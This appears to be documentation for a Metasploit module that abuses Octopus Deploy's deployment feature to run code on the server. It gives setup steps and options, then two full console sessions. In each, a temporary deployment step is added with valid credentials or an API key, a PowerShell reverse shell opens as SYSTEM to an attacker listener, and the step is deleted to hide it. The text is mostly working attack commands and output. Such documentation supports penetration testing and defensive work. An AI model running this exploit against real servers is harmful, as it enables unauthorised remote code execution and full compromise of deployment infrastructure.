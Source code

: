 ## Vulnerable Application

  [Install Octopus Deploy server](https://octopus.com/docs/getting-started#Gettingstarted-InstalltheOctopusserver)

  [Create a test user/team](https://octopus.com/docs/administration/managing-users-and-teams) - Team should have "Project contributor" and "Project deployer", or just "System administrator" and add your test user.

  [Create an API key](https://octopus.com/docs/how-to/how-to-create-an-api-key)

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use exploit/windows/http/octopusdeploy_deploy```
  4. Do: set ```PATH```, ```RHOST```, ```RPORT```, and ```SSL``` if needed
  5. Do: set ```STEPNAME``` if desired
  6. Do: set ```USERNAME``` and ```PASSWORD``` or just ```APIKEY```
  7. Do: ```run```
  8. You should get a shell.

## Options

### APIKEY

  API key, which can be generated within the Octopus Deploy application. Can be used instead of a username/password combination.

### USERNAME

  Username of the Octopus Deploy user.

### PASSWORD

  Password of the Octopus Deploy user.

### PATH

  Path to the Octopus Deploy instance. For example, if you sign in to "https://example.com/octopus/app", the value should be "/octopus".

### STEPNAME

  Name of the step to be added to a deployment. This may be visible in the application for a short period of time. A random value will be generated if no value is provided.

### SSL

  Enables or disables SSL. Octopus Deploy server can be configured to listen for HTTP or HTTPS traffic.

## Scenarios

### Octopus Deploy Server 3.16.0

  Getting a privileged shell on Octopus Deploy server using administrative credentials.

  ```
  msf > use exploit/windows/http/octopusdeploy_deploy
msf exploit(octopusdeploy_deploy) > set PATH /octoADTest
PATH => /octoADTest
msf exploit(octopusdeploy_deploy) > set USERNAME ODUser
USERNAME => ODUser
msf exploit(octopusdeploy_deploy) > set PASSWORD Password1
PASSWORD => Password1
msf exploit(octopusdeploy_deploy) > set RHOST 10.0.0.12
RHOST => 10.0.0.12
msf exploit(octopusdeploy_deploy) > set RPORT 80
RPORT => 80
msf exploit(octopusdeploy_deploy) > set payload windows/powershell_reverse_tcp
payload => windows/powershell_reverse_tcp
msf exploit(octopusdeploy_deploy) > set LHOST 10.0.0.7
LHOST => 10.0.0.7
msf exploit(octopusdeploy_deploy) > run

[*] Started reverse SSL handler on 10.0.0.7:4444 
[*] Getting available projects
[*] Using project TestProject2
[*] Getting steps to TestProject2
[*] Adding step r4XAJc to TestProject2
[*] Getting available channels
[*] Using channel Default
[*] Getting next version
[*] Using version 0.0.2
[*] Creating release
[*] Release Releases-79 created
[*] Deploying TestProject2 version 0.0.2 to TestEnv
[*] Getting updated steps to TestProject2
[*] Deleting step r4XAJc from TestProject2
[*] Step r4XAJc deleted
[*] Powershell session session 1 opened (10.0.0.7:4444 -> 10.0.0.12:59346) at 2017-05-15 19:54:01 -0500

Windows PowerShell running as user WIN-OL1HR5KBTPD$ on WIN-OL1HR5KBTPD
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Octopus\ADTest\Work\20170516025358-22>whoami
nt authority\system
PS C:\Octopus\ADTest\Work\20170516025358-22> exit

[*] 10.0.0.12 - Powershell session session 1 closed.  Reason: Died from Errno::ECONNRESET

msf exploit(octopusdeploy_deploy) >
  ```

  Getting a privileged shell on Octopus Deploy server using a sufficiently privileged API key.

  ```
  msf > use exploit/windows/http/octopusdeploy_deploy
msf exploit(octopusdeploy_deploy) > set PATH /octoADTest
PATH => /octoADTest
msf exploit(octopusdeploy_deploy) > set RHOST 10.0.0.12
RHOST => 10.0.0.12
msf exploit(octopusdeploy_deploy) > set RPORT 80
RPORT => 80
msf exploit(octopusdeploy_deploy) > set payload windows/powershell_reverse_tcp
payload => windows/powershell_reverse_tcp
msf exploit(octopusdeploy_deploy) > set LHOST 10.0.0.7
LHOST => 10.0.0.7
msf exploit(octopusdeploy_deploy) > set APIKEY API-FCIQ773M43RKNC4I9KZHQTABC
APIKEY => API-FCIQ773M43RKNC4I9KZHQTABC
msf exploit(octopusdeploy_deploy) > set STEPNAME shell
STEPNAME => shell
msf exploit(octopusdeploy_deploy) > run

[*] Started reverse SSL handler on 10.0.0.7:4444 
[*] Getting available projects
[*] Using project TestProject2
[*] Getting steps to TestProject2
[*] Adding step shell to TestProject2
[*] Getting available channels
[*] Using channel Default
[*] Getting next version
[*] Using version 0.0.3
[*] Creating release
[*] Release Releases-80 created
[*] Deploying TestProject2 version 0.0.3 to TestEnv
[*] Getting updated steps to TestProject2
[*] Deleting step shell from TestProject2
[*] Step shell deleted
[*] Powershell session session 1 opened (10.0.0.7:4444 -> 10.0.0.12:59373) at 2017-05-15 19:59:55 -0500

Windows PowerShell running as user WIN-OL1HR5KBTPD$ on WIN-OL1HR5KBTPD
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Octopus\ADTest\Work\20170516025952-24>whoami
nt authority\system
PS C:\Octopus\ADTest\Work\20170516025952-24> exit

[*] 10.0.0.12 - Powershell session session 1 closed.  Reason: Died from Errno::ECONNRESET

msf exploit(octopusdeploy_deploy) > 
  ```
